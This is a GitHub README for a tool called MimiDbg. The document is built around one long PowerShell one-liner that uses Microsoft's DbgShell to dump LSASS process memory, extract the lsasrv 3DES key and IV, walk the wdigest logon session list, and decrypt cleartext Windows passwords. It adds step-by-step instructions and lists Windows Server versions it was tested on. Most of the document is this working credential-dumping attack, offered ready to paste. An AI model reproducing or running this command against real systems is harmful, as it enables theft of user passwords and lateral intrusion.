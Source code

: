 # About MimiDbg

MimiDbg is a PowerShell oneliner that leverages the Microsoft tools "DbgShell". DbgShell is a PowerShell front-end for the Windows debugger engine. You can find DbgShell [here](https://github.com/Microsoft/DbgShell)

MimiDbg uses [PowerMemory](https://github.com/giMini/PowerMemory/blob/master/README.md) concept to retrieve Wdigest passwords from the memory.

## How to use it?

![mimiDbg How to use it?](https://media.giphy.com/media/xUOxfdG7ghdVXHmRZ6/giphy.gif)

1) Download the project. 
2) Unzip it in c:\temp. 
3) Open a command prompt. 
4) Type:
```
cd c:\temp\DbgShell\x64
```

5) Run the following oneliner:
```
DbgShell.exe $process = Get-Process lsass;$ok=0;$windowsErrorReporting = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting');$windowsErrorReportingNativeMethods = $windowsErrorReporting.GetNestedType('NativeMethods', 'NonPublic');$flags = [Reflection.BindingFlags] 'NonPublic, Static';$miniDumpWriteDump = $windowsErrorReportingNativeMethods.GetMethod('MiniDumpWriteDump', $flags);$miniDumpWithFullMemory = [UInt32] 2;$processId = $process.Id;$processName = $process.Name;$processHandle = $process.Handle;$processDumpPath = 'C:\Users\Public\Downloads\juice';$fileStream = New-Object IO.FileStream($processDumpPath, [IO.FileMode]::Create);try{$result = $miniDumpWriteDump.Invoke($null, @($processHandle,$processId,$fileStream.SafeFileHandle,$miniDumpWithFullMemory,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero));if(!$result) {$fileStream.Close();}$fileStream.Close();$ok=1;}catch{$_.Exception();$fileStream.Close();}Mount-DbgDumpFile -DumpFile $processDumpPath;$faObj = dd lsasrv!h3DesKey;$sa = '{0:x8}' -f $faObj.Item(1) + '{0:x8}' -f $faObj.Item(0);$saObj = dd $sa;$ta = '{0:x8}' -f $saObj.Item(5) + '{0:x8}' -f $saObj.Item(4);$h3Des = db $ta;$k = '0x{0:x}' -f $h3Des.Item(60) + ', 0x{0:x}' -f $h3Des.Item(61) + ', 0x{0:x}' -f $h3Des.Item(62) + ', 0x{0:x}' -f $h3Des.Item(63) + ', 0x{0:x}' -f $h3Des.Item(64) + ', 0x{0:x}' -f $h3Des.Item(65) + ', 0x{0:x}' -f $h3Des.Item(66) + ', 0x{0:x}' -f $h3Des.Item(67) + ', 0x{0:x}' -f $h3Des.Item(68) + ', 0x{0:x}' -f $h3Des.Item(69) + ', 0x{0:x}' -f $h3Des.Item(70) + ', 0x{0:x}' -f $h3Des.Item(71) + ', 0x{0:x}' -f $h3Des.Item(72) + ', 0x{0:x}' -f $h3Des.Item(73) + ', 0x{0:x}' -f $h3Des.Item(74) + ', 0x{0:x}' -f $h3Des.Item(75) + ', 0x{0:x}' -f $h3Des.Item(76) + ', 0x{0:x}' -f $h3Des.Item(77) + ', 0x{0:x}' -f $h3Des.Item(78) + ', 0x{0:x}' -f $h3Des.Item(79) + ', 0x{0:x}' -f $h3Des.Item(80) + ', 0x{0:x}' -f $h3Des.Item(81) + ', 0x{0:x}' -f $h3Des.Item(82) + ', 0x{0:x}' -f $h3Des.Item(83);$iv = db lsasrv!InitializationVector;$iv = '0x{0:x}' -f $iv.Item(0) + ', 0x{0:x}' -f $iv.Item(1) + ', 0x{0:x}' -f $iv.Item(2) + ', 0x{0:x}' -f $iv.Item(3) + ', 0x{0:x}' -f $iv.Item(4) + ', 0x{0:x}' -f $iv.Item(5) + ', 0x{0:x}' -f $iv.Item(6) + ', 0x{0:x}' -f $iv.Item(7);$lsObj = dd wdigest!l_LogSessList;$lsf = '{0:x8}' -f $lsObj.Item(1) + '{0:x8}' -f $lsObj.Item(0);$nextEntry = '';$i = 0;$lsfEntry = $lsf;while ($lsfEntry -ne $nextEntry) {if($i -eq 0) {$lsfObj = dd $lsf;$sizeObj = db $lsf;$nextEntry = '{0:x8}' -f $lsfObj.Item(1) + '{0:x8}' -f $lsfObj.Item(0);$i = 1;}else {$lsfObj = dd $nextEntry;$sizeObj = db $lsf;$nextEntry = '{0:x8}' -f $lsfObj.Item(1) + '{0:x8}' -f $lsfObj.Item(0);}$t = '{0:x8}' -f $lsfObj.Item(15) + '{0:x8}' -f $lsfObj.Item(14);du $t;$sizeObj = db $lsf;$L = '{0:x}' -f $sizeObj.Item(82);$juice = '{0:x8}' -f $lsfObj.Item(23) + '{0:x8}' -f $lsfObj.Item(22);$juiceObj = db $juice L$L;$tot = [System.Convert]::ToInt32($L,16);$phex = '';for($i=0;$i -lt $tot;$i++) {if($i -ne 0) {$phex += ', 0x{0:x2}' -f $juiceObj.Item($i);}else {$phex = '0x{0:x2}' -f $juiceObj.Item($i);}}$password = $phex;$key=$k;$initializationVector=$iv;try{$arrayPassword = $password -split ', ';$passwordByte = @();foreach($ap in $arrayPassword){$passwordByte += [System.Convert]::ToByte($ap,16);}$arrayKey = $key -split ', ';$keyByte = @();foreach($ak in $arrayKey){$keyByte += [System.Convert]::ToByte($ak,16);}$arrayInitializationVector = $initializationVector -split ', ';$initializationVectorByte = @();foreach($aiv in $arrayInitializationVector){$initializationVectorByte += [System.Convert]::ToByte($aiv,16);}$TripleDES = New-Object System.Security.Cryptography.TripleDESCryptoServiceProvider;$TripleDES.IV = $initializationVectorByte;$TripleDES.Key = $keyByte;$TripleDES.Mode = [System.Security.Cryptography.CipherMode]::CBC;$TripleDES.Padding = [System.Security.Cryptography.PaddingMode]::Zeros;$decryptorObject = $TripleDES.CreateDecryptor();[byte[]] $outBlock = $decryptorObject.TransformFinalBlock($passwordByte, 0 , $passwordByte.Length);$TripleDES.Clear();Write-Output ([System.Text.UnicodeEncoding]::Unicode.GetString($outBlock));}catch {Write-Output '$error[0]';}}
```


## Current Status

MimiDbg has been in my mind for a long time (since DbgShell announcement). The project is still pretty new. However, it can demonstrate what can be accomplished.

## Operating System supported

Currently, I tested the oneliner against:

* Windows 2012R2 - 64-bit
* Windows 2016 - 64-bit

## Credential Guard

Look here for more information about [Credential Guard](https://social.technet.microsoft.com/wiki/contents/articles/38015.credential-guard-say-good-bye-to-ptht-pass-the-hashticket-attacks.aspx)